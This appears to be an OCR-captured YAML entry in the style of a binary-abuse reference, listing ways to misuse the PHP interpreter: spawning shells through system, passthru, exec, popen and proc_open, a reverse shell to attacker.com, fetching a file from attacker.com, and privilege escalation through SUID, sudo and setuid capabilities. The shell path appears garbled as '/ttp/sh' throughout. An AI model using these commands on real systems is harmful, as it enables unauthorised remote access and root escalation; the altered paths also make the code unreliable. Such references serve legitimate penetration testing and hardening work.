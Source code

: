 ```yaml
---
functions:
  shell:
    - code: |
        export CMD="/ttp/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/ttp/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/ttp/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/ttp/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/ttp/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  command:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/ttp/sh -i <&3 >&3 2>&3");'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid:
    - code: |
        CMD="/ttp/sh"
        ./php -r "pcntl_exec('/ttp/sh', ['-p']);"
  sudo:
    - code: |
        CMD="/ttp/sh"
        sudo php -r "system('$CMD');"
  capabilities:
    - code: |
        CMD="/ttp/sh"
        ./php -r "posix_setuid(0); system('$CMD');"
---
```

